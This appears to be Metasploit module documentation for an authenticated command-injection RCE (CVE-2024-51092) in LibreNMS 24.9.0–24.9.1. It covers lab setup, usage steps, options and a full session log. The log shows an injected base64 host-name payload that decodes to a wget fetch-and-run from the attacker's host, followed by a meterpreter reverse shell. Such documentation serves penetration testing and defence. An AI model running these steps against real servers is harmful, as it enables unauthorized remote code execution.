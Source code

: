 ## Vulnerable Application

An authenticated attacker can create dangerous directory names on the system and
alter sensitive configuration parameters through the web portal.
Those two defects combined then allows to inject arbitrary OS commands inside shell_exec() calls,
thus achieving arbitrary code execution.

The vulnerability affects:

    * 24.9.0 <= LibreNMS <= 24.9.1

This module was successfully tested on:

    * LibreNMS 24.9.0 installed on Ubuntu 22.04
    * LibreNMS 24.9.1 installed on Ubuntu 22.04


### Installation

1. Follow the [official instructions](https://docs.librenms.org/Installation/Install-LibreNMS/).
After git clone, change version: `git checkout tags/24.9.1`.

2. Comment out the last line in `/etc/cron.d/librenms`:
`19 0 * * * librenms /opt/librenms/daily.sh >> /dev/null 2>&1`.
Otherwise, the version will be updated to the latest, causing the exploit to fail.


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/librenms_authenticated_rce_cve_2024_51092`
4. Do: `run lhost=<lhost> rhost=<rhost> username=<username> password=<password>`
5. (Optional) Do: `php artisan device:poll all` on the victim machine or wait up to 5 minutes (default cron setting)
6. You should get a meterpreter


## Options
### USERNAME (required)
User name for LibreNMS.

### PASSWORD (required)
Password for LibreNMS.

### PATH (required)
LibreNMS installed location. Default is `/opt/librenms`.

### WAIT (required)
Wait time (seconds) for cron to poll the device. Default is `315`.


## Scenarios
```
msf > use exploit/linux/http/librenms_authenticated_rce_cve_2024_51092
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/librenms_authenticated_rce_cve_2024_51092) > options

Module options (exploit/linux/http/librenms_authenticated_rce_cve_2024_51092):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password for LibreNMS
   PATH      /opt/librenms    yes       LibreNMS installed location
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                   yes       User name for LibreNMS
   VHOST                      no        HTTP server virtual host
   WAIT      315              yes       Wait time (seconds) for cron to poll the device


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      n                no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH       s                no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/librenms_authenticated_rce_cve_2024_51092) > run lhost=192.168.56.1 rhost=192.168.56.17 username=librenms password=librenms
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Successfully logged into LibreNMS.
[+] The target appears to be vulnerable. LibreNMS version 24.9.1 detected, which is vulnerable.
[*] Try to add host: 'f;echo d2dldCAtcU8gLi9uIGh0dHA6Ly8xOTIuMTY4LjU2LjE6ODA4MC9zO2NobW9kICt4IC4vbjsuL24m|base64 -d|bash;#', length: 100
[*] Added host.
[*] Actual payload: wget -qO ./n http://192.168.56.1:8080/s;chmod +x ./n;./n&
[*] Waiting up to 315 seconds for cron to poll the device...
[*] Sending stage (3045380 bytes) to 192.168.56.17
[+] Deleted n
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:40228) at 2025-01-17 21:19:20 +0900
[*] Reset snmpget to default.
[*] Deleted device: 353

meterpreter > getuid
Server username: librenms
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-50-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
